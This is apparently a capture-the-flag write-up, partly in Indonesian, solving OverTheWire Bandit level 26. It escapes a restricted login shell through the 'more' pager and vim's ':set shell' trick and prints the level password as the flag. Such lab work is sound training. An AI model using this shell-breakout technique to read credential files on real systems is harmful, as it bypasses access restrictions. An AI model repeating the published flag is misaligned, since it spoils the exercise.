 ```yaml
---
layout: level
level: 26
previous: ./level 25.html
next: ./level 27.html
---
```


# soal
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

NOTE: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.

# solve
```bash
cat bandit26.sshkey
# -----BEGIN RSA PRIVATE KEY-----
# ...

## ssh in host
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220 -vvv

## i try another option but not work
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220 -t /bin/sh # change the tty
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220 -T # tanpa tty
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220  "whoami" # run command
ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p ^C20 -t /bin/sh "cat /etc/bandit_pass/bandit26 > /tmp/tmp.nvaRc1Ef3g/pass" # input only
```

- namun kareana saya sudah mencoba namun tidak ada yang berhasil jadi saya mencari di youtube dan mencari solusinya
- disini saya menemukan solusi dengan mengecilkan layar maka nanti kita seolah seolah sedang menggunakan perintah less
  ```ssh -i bandit26 bandit26@localhost -p 2220```
  ![alt text](docs/images/image-1.png)
  ![alt text](docs/images/image.png)
- jika sudah kita bisa click "v" untuk masuk ke vim editor
- jika sudah kita bisa cari tau cara keluar dari vim dan masuk ke shell di gtfobins
  ![alt text](docs/images/image-2.png)
  - https://gtfobins.github.io/gtfobins/vim/
  - kita coba salah satunya dengan mengclick ESC terlebih dahulu
    ```bash
    :set shell=/bin/sh|:shell
    ```
- atau kita bisa gunakan langkah satu persatu saat sudah di vim
  ```bash
  :set shell=/bin/bash 
  # lalu enter

  :shell
  # ini ssama seperti sebelumnya hanya saja kita secara 1 persatu
  # jika ingin cepat kita bisa gunakan |

  :set shell=/bin/bash | :shell
  ```

- got flag
  ```bash
  cat /etc/bandit_pass/bandit26
  # s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
  ```

# flag
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
